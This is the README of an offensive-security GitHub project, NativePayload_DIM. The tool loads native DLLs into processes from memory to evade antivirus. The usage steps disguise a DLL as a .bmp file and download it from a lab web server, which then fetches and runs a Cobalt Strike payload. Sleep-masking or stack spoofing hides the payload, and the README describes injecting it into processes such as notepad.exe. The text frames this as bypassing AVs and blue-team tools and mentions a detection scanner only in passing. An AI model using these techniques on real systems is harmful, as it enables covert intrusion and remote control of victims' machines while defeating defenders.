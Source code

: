 # NativePayload_DIM

NativePayload_DIM Dynamic native dll Injection in Memory , Injecting Native DLL bytes to local Process

Note: `NativePayload_DIM is simple csharp code to loading Native Dll [unmanaged dll] into Managed Processes [.NET Processes] without read dll from disk [in-memory only]` , this will help you to bypass AVs and Blue team tools etc also you can convert this Csharp code to Managed Dll then you can inject this code to any process you want [Native Processes or Managed Processes] and ...

in this code i used two old C++ Codes "ShellcodeFluctuation" & "CallStackSpoofer" as Native DLL to inject them into local Managed Process in this case "NativePayload_DIM" and you can see results was good in these pictures.

Note: `C++ Codes for "ShellcodeFluctuation" & "CallStackSpoofer" was changed by me and output of projects changed to dll (so you should use these C++ codes in this repo), Function name "run" added into source codes also these codes will download cobaltstrike "payload.bin" via web traffic so we have two change in source codes for these c++ projects` , you can find original source code in below link

C++ Original Source codes:

ShellcodeFluctuation => https://github.com/mgeeky/ShellcodeFluctuation

ThreadStackSpoofer => https://github.com/mgeeky/ThreadStackSpoofer

Note: `as Blue teamer you can see how this code was detected by my ETW Memory Scanner which called "VirtualMemAllocMon.exe".`

ETW Memory Scanner => https://github.com/DamonMohammadbagher/ETWProcessMon2/tree/main/VirtualMemAllocMon

#### NativePayload_DIM background step-by-step

      Step1: Native dll bytes from web downloaded via bmp extension loaded into local process in-memory [ShellcodeFluctuation.dll or ThreadStackSpoofer.dll renamed to bmp extension]
      Step2: Native dll after loading in local process [Managed process] will call Funcation name "run" and this function will get payload.bin from web
      Step3: in-memory that payload.bin will run also [cobaltstrike session established]
      Step4: in-memory ShellcodeFluctuation.dll will encode payloads [Sleep-mask + delay] or in-memory with ThreadStackSpoofer.dll you will have stack spoofing with delay 


----------------------
#### Usage step-by-step:

      Step1: Compile C++ Codes to make Dll files [output should be dll type]
            Step1-1: line 595 of main.cpp file in ShellcodeFluctuation-maste project is shellcode = downloadContent(L"http://192.168.56.104:8000/payload.bin") , you should change this ip address to cobaltstrike host ip address THEN compile ShellcodeFluctuation C++ code.
            Step1-2: line 304 of main.cpp file in ThreadStackSpoofer-maste project is shellcode = downloadContent(L"http://192.168.56.104:8000/payload.bin") , you should change this ip address to cobaltstrike host ip address THEN compile ThreadStackSpoofer C++ code.
      Step2: rename "callstackspoofer.dll or ShellcodeFluctuation.dll" to NativeCode_SleepMask.bmp
      Step3: upload bmp file to kali linux [cobaltstrike host]      
      Step4: line 38 of program.cs file in NativePayload_DIM project is "http://192.168.56.104:8000/NativeCode_SleepMask.bmp" , you should change this ip address to cobaltstrike host ip address THEN compile NativePayload_DIM C# code.
      Step5: make raw payload.bin in cobaltstrike v4.0 host and both files in step3 and step5 should be in same folder & share them via webserver [you can use "Python2.7 -m SimpleHTTPServer" in kali linux]
      Step6: Run NativePayload_DIM.exe 

### NativePayload_DIM + loading Native Dll "ShellcodeFluctuation.dll" into local process
   ![](https://github.com/DamonMohammadbagher/NativePayload_DIM/blob/main/Pics/ShellcodeFluctuation1.png)
   
### NativePayload_DIM & Detection via ETW Memory-scanner for ShellcodeFluctuation method in-memory before encoding...
   ![](https://github.com/DamonMohammadbagher/NativePayload_DIM/blob/main/Pics/ShellcodeFluctuation2.png)
   
-------------------
### NativePayload_DIM + loading Native Dll "ThreadStackSpoofer.dll" into local process
   ![](https://github.com/DamonMohammadbagher/NativePayload_DIM/blob/main/Pics/callstackspoofer.png)
-------------------   
in this picture you can see NativePayload_DIM.dll as Managed DLL was injected into Native Process and ShellcodeFluctuation.dll as Native DLL downloaded and injected into target Native Process by Managed dll [NativePayload_DIM.dll] too.
### NativePayload_DIM.dll + loading Native Dll "ShellcodeFluctuation.dll" into Native process cmd.exe or notepad.exe
   ![](https://github.com/DamonMohammadbagher/NativePayload_DIM/blob/main/Pics/DIMNativex.png)
   
<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/DamonMohammadbagher/NativePayload_DIM"/></a></p>
